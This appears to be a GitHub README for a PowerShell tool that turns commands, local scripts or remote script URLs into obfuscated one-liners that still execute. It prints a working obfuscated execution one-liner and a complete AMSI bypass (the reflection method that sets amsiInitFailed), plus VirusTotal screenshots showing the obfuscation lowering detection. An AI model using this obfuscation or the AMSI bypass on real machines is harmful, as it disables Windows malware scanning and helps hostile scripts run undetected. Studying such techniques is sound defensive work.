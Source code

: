 # Invoke-Mathfuscation

![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscation.png)

A quick command line utility that converts individual characters of an input string into char values. It then takes a user-supplied number value and uses it to ofuscate the individual char values. Lastly, it outputs a simple obfuscated one-liner using random polymorphic variables which will execute the original string. Currently supports:

* Remote URL (ie: http://example.com/dir/remote.ps1)
* Local File (ie: C:\tmp\local.ps1)
* PowerShell Command (ie: Write-Host "Hello world!")
* **Update:** Supports positive/negative numbers

When prompted, specify a command to invoke, remote URL or full local path to a .ps1 file, then supply the number offset which will be added or subtracted to the char values. 

Example: 
```Write-Host "Hello world!"``` using 600 as an offset:
```powershell
@(687,714,705,716,701,645,672,711,715,716,632,634,672,701,708,708,711,632,719,711,714,708,700,633,634)|%{$Pbdli=$Pbdli+[char]($_-600)};.(g`cm i?[?x])($Pbdli)
```

## VirusTotal Detections

Example: AMSI Bypass using Using Matt Graebers Reflection method:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Unmathfuscated: `3f5dcf5b5cd4eb727ed4cd6cea6bbbaa8c1c5272b60c0415084981ec30e7a66b`
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_1.png)

Mathfuscated: `5db31b84c99d9a977e629f09b4e1f7cbd525b1167959457f6b59220e4e2eb9a5`
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_2.png)



*Disclaimer: I'm not a programmer*

Use at your own risk! For educational purposes only. 


